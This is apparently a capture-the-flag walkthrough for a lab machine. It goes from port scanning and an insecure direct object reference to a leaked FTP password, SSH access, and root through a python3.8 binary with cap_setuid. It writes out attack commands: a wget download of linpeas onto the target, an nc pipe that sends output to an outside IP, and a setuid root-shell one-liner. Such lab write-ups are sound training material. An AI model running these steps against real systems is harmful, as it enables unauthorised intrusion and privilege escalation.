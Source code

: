 ### Task 1

How many TCP ports are open?

```nmap -sS -p- <ip_address>```

- -sS: Stealth Scan, the fastest way to scan ports of the most popular protocol (TCP). 

After scanning, 3 TCP ports are showing to be open.

![alt text](image-c.png)

### Task 2

After running a "Security Snapshot", the browser is redirected to a path of the format /[something]/[id], where [id] represents the id number of the scan. What is the [something]?

Upen the hamburger menu, and click on **Security Snapshot (5 Second PCAP + Analysis)** 

This will redirect you ti a URL with something being **data**. 

### Task 3

Are you able to get to other users' scans?

For this, you can try and change the **id** from **1** to another value. If you try with the value **0** you will see different dashboard, which means you were able to get to other user's scans.

### Task 4 

What is the ID of the PCAP file that contains sensative data?

The page that was found before with the **id** equal to **0** is the one that contains sensative data.

### Task 5

Which application layer protocol in the pcap file can the sensetive data be found in?

When you download and open the file from the dashboard page with **id = 0**, inspect the packets from the Wireshark capture. You will soon find that the sensitive data is in the FTP protocol. Where a request is sent with a password in plain text.

### Task 6

Try to ssh to the target ip address with the user name and the password for you obtained in the previous step. You will see that this will succesfully work. 

```ssh nathan@<target_ip>```

![alt text](image-c-2.png)

### Task 7

Get the user.txt flag from the ftp server.

```wget ftp://user:password@ftp.mydomain.com/path/file.ext````

![alt text](image-c-1.png)

In your host run ```cat user.txt``` and obtain the user flag.

### Task 8

What is the full path to the binary on this machine has special capabilities that can be abused to obtain root privileges?

First clone the reposiroty for using the Linux escalating privelages script. Then make the script executable.

```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh -O linpeas.sh

chmod +x linpeas.sh

```

Start a Python HTTP server to transfer the script to the target machine.

```python3 -m http.server 8080````

On the target machine, log in with the username **nathan** and his credentials, get the file from your host system.

```
cd /tmp
wget http://<host_ip_address>:8080/linpeas.sh -O linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

and run it saving the output to a text file.
```/tmp/linpeas.sh | tee /tmp/linpeas-output.txt```

You can tranfer this text file to your local machine for further analysis by opening a port to "listen" to a connection and save the incoming data to a new file locally.

```nc -lvnp 4444 > linpeas_output.txt```

From the target machine you can send the file 

```cat linpeas_output.txt | nc 10.10.14.190 4444```

Inspecting the file, under **Files with capabilities** the interesting file is **/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip** which indicates potential privilege escalation allowing changing the user ID to another user (including root)

![alt text](image-c-3.png)

### Task 9 

You can escalate priveleges and switch to root by attempting

 ```/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'```

 then find the flag 

 ```find / -name "root.txt" 2>/dev/null```

 and read the flag by 
```cat /root/root.tx/```




